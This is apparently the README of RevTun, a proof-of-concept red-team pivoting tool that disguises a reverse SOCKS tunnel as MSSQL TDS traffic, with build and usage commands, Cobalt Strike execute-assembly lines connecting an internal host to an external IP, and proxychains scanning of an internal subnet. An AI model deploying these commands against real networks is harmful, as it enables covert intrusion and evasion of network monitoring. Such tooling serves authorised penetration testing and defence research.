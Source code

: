 # RevTun

RevTun is a POC tool for network pivoting. It operates similar to chisel, ligolo and ssh tunneling. The main difference is that it uses the Microsoft SQL Server TDS protocol to make the network traffic look like MSSQL traffic.

It operates in 3 modes:
- **Server**: Listens on a port (1433 by default). Once it receives a client connection, it opens another port (1080 by default). Through the second port, we can use proxychains/tun2socks to forward all traffic though the client.
- **Client**: Connects to server or to the relay using authentic MSSQL authentication. Forwards all traffic from the server.
- **Relay**: Relays the traffic from the client to the server. Use case: the client cannot directly reach the server but can reach the relay machine.

## Building

### Quick Build
```powershell
.\build-multi.ps1  # Builds .NET Framework 4.8, Linux x64, Windows x64
```

### Manual Builds
```bash
# Windows x64
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true

# Linux x64  
dotnet publish -c Release -f net8.0 -r linux-x64 --self-contained true -p:PublishSingleFile=true

# Cobalt Strike (.NET Framework 4.8)
dotnet build -c Release -f net48 -p:Platform=AnyCPU
```

### Build (Multi-Platform)
Use the provided PowerShell script for automated builds:

```powershell
# Builds all targets: .NET Framework 4.8, Linux x64, Windows x64
.\build-multi.ps1
```

## Usage

### Server
```bash
./revtun server --port 1433 --proxy-port 1080
```

### Client 
```bash
./revtun client --host server.com --port 1433 --encrypt
```

### Relay (Traffic Forwarding)
```bash
./revtun relay --host target-server.com --port 1433 --server-port 1433 --debug
```

### Using SOCKS Proxy
```bash
curl --proxy socks5://localhost:1080 http://internal-resource.local
proxychains nmap -sT 192.168.1.0/24
```

## Cobalt Strike Integration

### Deployment
```bash
# Client from internal network  
execute-assembly revtun.exe client --host [external-ip] --port 1433 --encrypt --auto-exit

# Relay on pivot host
execute-assembly revtun.exe relay --host [internal-sql-server] --port 1433 --verbose
```

## Command Options

### Server
```
--port, -p <port>          MSSQL server port (default: 1433)
--proxy-port <port>        SOCKS proxy port (default: 1080)  
--bind <address>           Bind address (default: 0.0.0.0)
--verbose, -v              Enable verbose logging
--require-encryption       Require TLS encryption
```

### Client  
```
--host, -h <hostname>      Server hostname (default: localhost)
--port, -p <port>          Server port (default: 1433)
--username, -u <user>      SQL username (default: sa)
--password <pass>          SQL password (default: Password123)
--auto-exit                Exit after connection test
--verbose, -v              Enable verbose logging
--debug                    Enable debug output
--encrypt                  Request TLS encryption
```

### Relay
```
--port, -p <port>          Relay listener port (default: 1433)
--bind <address>           Bind address (default: 0.0.0.0)
--host, -h <hostname>      Target server hostname (default: localhost)
--server-port <port>       Target server port (default: 1433)
--verbose, -v              Enable verbose logging
--debug                    Enable debug output with TDS packet analysis
```
